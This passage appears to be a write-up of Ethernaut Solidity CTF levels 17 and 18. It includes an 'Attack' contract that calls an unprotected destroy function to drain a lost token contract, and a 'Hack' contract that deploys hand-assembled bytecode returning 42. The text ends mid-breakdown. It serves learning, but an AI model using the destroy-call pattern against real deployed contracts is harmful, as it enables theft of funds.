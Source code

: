 # 17.Recovery

- Here we need to get the contract address of the `SimpleToken` that was created at the time of the creation of level instance then we can call the `destroy` function of that contract.
- There is 2 ways to get that address the simplest and best way is to check the etherscan the other one is to recreate that address using our instance address and nounce the method for that is explained in this [Stackexchange](https://ethereum.stackexchange.com/questions/760/how-is-the-address-of-an-ethereum-contract-computed) querry.
- After getting that address we can call the `destruct` function using an Attack contract.

```
contract Attack {
    function RecoveryAttack(address payable _simpleToken) public {
        SimpleToken(_simpleToken).destroy(payable(msg.sender));
    }
}
```

# 18. Magic number 42

- Contract creation is a transaction with no recipient but with byte code in its data slot which includes initialisation code (which includes constructor) and runtime code of the contract.
- Smart contract code is compiled to bytecode inside the compiler code written in solidity is converted into opcodes where each opcodes has their own byte representation which as a whole is the bytecode.
- We have to find specific opcodes with the help of [charts](https://ethereum.org/en/developers/docs/evm/opcodes/) or from any other resources and construct a bytecode which perform this specific function of returning number 42.
- We can interact with the contract either from Ethernaut browser console or by using a contract. The contract that can be used to ocrack this level is given below.

```
contract Hack {
    constructor(MagicNum target) {
        bytes memory bytecode = hex"69602a60005260206000f3600052600a6016f3";
        address addr;

        assembly {
            addr:= create(0, add(bytecode, 0x20), 0x13)
        }

        require(addr != address(0));
        target.setSolver(addr);
    }
}
```

- Here `69602a60005260206000f3600052600a6016f3` is the bytecode which has the creation code and runtime code for returning the number 42. This can be understood easily by spliting the bytecode and cross checking it with the chart.

```
Creation code (10 OPCODES)
-------------

69 602a60005260206000f3  | PUSH10 0x602a60005260206000f3
60 00                    | PUSH1 0x0
52                       | MSTORE
60 0a                    | PUSH1 0xa
60 16                    | PUSH1 0x16
f3                       | RETURN

Runtime code (602a60005260206000f3)
------------
```